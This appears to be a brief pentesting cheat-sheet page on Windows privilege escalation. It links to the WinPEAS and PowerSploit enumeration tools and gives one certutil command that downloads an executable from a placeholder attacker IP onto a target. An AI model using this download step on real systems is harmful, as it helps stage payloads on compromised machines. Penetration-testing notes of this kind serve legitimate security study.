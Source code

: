 ```yaml
---
layout: default
title: Windows Privilege Escalation
nav_order: 2
has_children: false
parent: Privilege Escalation
grand_parent: Pentesting
---
```


##  Windows Privilege Escalation :

### WinPeas

Will automate the privilege escalation detection: 
- [https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)
- [https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc](  https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc)

### Download file

```powershell
certutil -urlcache -f http://<YOUR_IP>/<YOUR_EXE> <DESTINATION>
```
